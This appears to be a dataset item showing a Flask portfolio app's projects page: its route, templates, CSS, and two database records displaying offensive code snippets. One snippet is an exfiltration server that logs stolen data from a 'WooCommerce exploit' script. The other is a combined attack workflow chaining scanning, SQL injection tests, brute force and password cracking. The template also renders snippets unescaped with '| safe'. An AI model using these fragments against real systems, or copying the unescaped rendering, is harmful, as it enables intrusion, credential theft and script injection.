

The app's page /projects (upper part) with its own data (2 pictures, top to bottom).
### tables this page shows
CREATE TABLE projects (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            title TEXT NOT NULL,
            description TEXT NOT NULL,
            link TEXT,
            code_snippet TEXT NOT NULL,
            image TEXT
        );

### app.py (the view)
@app.route('/projects')
def projects():
    conn = get_db_connection()
    projects = conn.execute('SELECT * FROM projects').fetchall()
    conn.close()
    return render_template('projects.html', projects=projects)

### app.py (called while the page is built)
def get_db_connection():
    conn = sqlite3.connect(app.config['DATABASE'])
    conn.row_factory = sqlite3.Row
    return conn

### templates/projects.html (shortened to what this page needs)
{% extends 'layout.html' %}
{% block content %}
<div class="projects-container">
    <h2>My Projects</h2>
    <ul>
        {% for project in projects %}
        <li class="project-card">
            <h3>{{ project.title }}</h3>
            <p class="project-description">{{ project.description }}</p>
            <div class="card-content">
                <section id="code-snippet" class="snippet-section">
                    <h3 class="snippet-title">Highlighted Project Code Snippet</h3>
                    <p class="snippet-description">
                        Explore a core Python script from the project showcasing its functionality:
                    </p>
                    <div class="snippet-container">
                        <pre>
                            <code class="language-python">
                                {{ project.code_snippet | safe }}
                            </code>
                        </pre>
                    </div>
                    <div class="snippet-buttons">
                        <a href="{{ url_for('static', filename='scripts/' + project.title | replace(' ', '_') + '.py') }}" download class="btn-download">Download Full Script</a>
                        <button class="btn-copy" onclick="copyCodeSnippet()">Copy Code</button>
                    </div>
                </section>
                {% if project.image %}
                <div class="image-container">
                    <img src="{{ url_for('static', filename='images/' + project.image) }}" alt="Project Output">
                </div>
                {% endif %}
            </div>
        </li>
        {% endfor %}
    </ul>
</div>
{% endblock %}

### templates/layout.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang="en">
<head>
    <link rel="stylesheet" href="{{ url_for('static', filename='css/style.css') }}">
</head>
<body class="{% if session.theme == 'dark' %}dark-mode{% else %}light-mode{% endif %}">
    <header class="glass-navbar">
        <div class="vcard-logo">
            <img src="{{ url_for('static', filename='images/logo.jpeg') }}" alt="Your Logo">
        </div>
        <nav class="nav-links">
            <a href="{{ url_for('index') }}">Home</a>
            <a href="{{ url_for('projects') }}">Projects</a>
            <a href="{{ url_for('about') }}">About</a>
            <a href="{{ url_for('contact') }}">Contact</a>
        </nav>
        <form action="{{ url_for('toggle_theme') }}" method="POST" style="display:inline;">
            <button type="submit" class="theme-toggle">
                {% if session.theme == 'dark' %}
                🌞
                {% else %}
                🌙
                {% endif %}
            </button>
        </form>
    </header>
    <main>
        {% block content %}{% endblock %}
    </main>
</body>
</html>

### static/css/style.css (style rules this page uses)
body, html { margin: 0; padding: 0; font-family: 'Roboto', sans-serif; transition: all 0.3s ease; }
body.light-mode { --background: #f5f5f5; --text-color: #333; --header-footer-bg: #222; --header-footer-text: #fff; --card-bg: #e0e0e0; --snippet-bg: #fff; --code-text: #333; --card-shadow: 10px 10px 20px #bebebe, -10px -10px 20px #ffffff; --bullet-color: #aaa; background: var(--background); color: var(--text-color); }
body.light-mode .glass-navbar { background: rgba(255, 255, 255, 0.8); box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1); }
.glass-navbar { display: flex; justify-content: space-between; align-items: center; padding: 10px 20px; position: sticky; top: 0; z-index: 100; backdrop-filter: blur(10px); border-radius: 15px; transition: background-color 0.3s, box-shadow 0.3s; }
.nav-links a { text-decoration: none; color: inherit; margin: 0 10px; font-weight: bold; transition: color 0.3s ease; }
.theme-toggle { background: none; border: none; font-size: 1.5rem; cursor: pointer; color: var(--header-footer-text); transition: transform 0.3s ease; }
.project-card { background: var(--card-bg); border-radius: 15px; padding: 20px; margin: 20px 0; box-shadow: var(--card-shadow); transition: transform 0.3s ease; position: relative; }
.project-card::before { content: "•"; color: var(--bullet-color); font-size: 2rem; position: absolute; left: -35px; top: 20px; }
.snippet-container { background: var(--snippet-bg); padding: 15px; border-radius: 10px; overflow-x: auto; box-shadow: inset 5px 5px 10px rgba(0, 0, 0, 0.2), inset -5px -5px 10px rgba(255, 255, 255, 0.1); }
.image-container img { max-width: 100%; border-radius: 10px; box-shadow: 5px 5px 15px rgba(0, 0, 0, 0.2); }
button, input[type="text"], input[type="email"], input[type="textarea"] { border: none; padding: 10px; border-radius: 10px; margin: 5px; font-size: 1rem; background-color: #3498db; color: white; cursor: pointer; box-shadow: 2px 2px 10px rgba(0, 0, 0, 0.2); transition: box-shadow 0.3s ease; }
.vcard-logo { text-align: center; margin-bottom: 15px; }
.vcard-logo img { width: 80px; height: 80px; border-radius: 50%; box-shadow: 0 4px 8px rgba(0, 0, 0, 0.3); }
button { padding: 10px 15px; background-color: #ff6f61; border: none; border-radius: 5px; color: white; cursor: pointer; }
body { font-family: Arial, sans-serif; background-color: #f4f4f4; color: #333; transition: background-color 0.3s, color 0.3s; }
.projects-container { padding: 30px; max-width: 1200px; margin: 0 auto; background-color: #fafafa; transition: background-color 0.3s ease; }
h2 { font-size: 2.2rem; text-align: center; margin-bottom: 30px; color: #333; font-weight: 600; transition: color 0.3s ease; }
.project-card { border-radius: 10px; padding: 25px; margin: 25px 0; background-color: #fff; transition: background-color 0.3s ease, box-shadow 0.3s ease; box-shadow: 8px 8px 15px #ccc, -8px -8px 15px #fff; color: #333; }
.project-description { font-size: 1.1rem; margin-bottom: 20px; color: #444; }
.snippet-container { background-color: #2d2d2d; padding: 20px; border-radius: 8px; color: #fff; font-family: 'Courier New', monospace; font-size: 1.05rem; line-height: 1.4; overflow-x: auto; box-shadow: 4px 4px 10px rgba(0, 0, 0, 0.15), -4px -4px 10px rgba(255, 255, 255, 0.1); }
.btn-download, .btn-copy, .project-link { padding: 12px 25px; background-color: #007bff; color: white; border: none; border-radius: 5px; text-decoration: none; font-size: 1rem; cursor: pointer; transition: background-color 0.3s ease, transform 0.2s ease; }

### records on screen
projects: title "WordPress WooCommerce Exploit Script", description "Discover vulnerabilities in WordPress WooCommerce sites with this script. Designed for educational purposes to highlight risks in e-commerce platforms.", code_snippet "import requests Start Exfiltration Server def start_exfil_server(port=8080): class ExfilHandler(http.server.SimpleHTTPRequestHandler): def do_POST(self): try: content_length = int(self.headers[\"Content-Length\"]) post_data = self.rfile.read(content_length) print(f\"\u001b[1;36m[+] Exfiltrated Data Received: {post_data.decode()}\u001b[0m\") with open(\"exfil_data.log\", \"a\") as f: f.write(post_data.decode() + \" \") self.send_response(200) self.end_headers() except Exception as e: print(f\"[!] Error in exfiltration server: {e}\")", image (picture)
projects: title "Chimera", description "The script is a penetration testing tool called Chimera that automates tasks like network scanning, vulnerability assessment, brute force attacks, password cracking, and subdomain enumeration using tools like nmap, nikto, hydra, and more. It features dependency checks, concurrent task execution, detailed logging, and user-friendly prompts. Results are stored, displayed, and logged for comprehensive analysis.", code_snippet "import requests # Combined Attack Workflow def combined_attack(target, username, wordlist, hash_file, domain): protocol = detect_protocol(target) target_url = target if protocol.startswith(\"http\") else f\"http://{target}\" print(f\"{Fore.YELLOW}[INFO]{Style.RESET_ALL} Starting Combined Attack Workflow...\") with ThreadPoolExecutor(max_workers=6) as executor: tasks = [ executor.submit(nmap_scan, target), executor.submit(nikto_scan, target_url), executor.submit(test_sql_injection, target_url), ] if username and wordlist: tasks.append(executor.submit(brute_force_auth, target, protocol, username, wordlist)) if hash_file and wordlist: tasks.append(executor.submit(crack_password, hash_file,…"
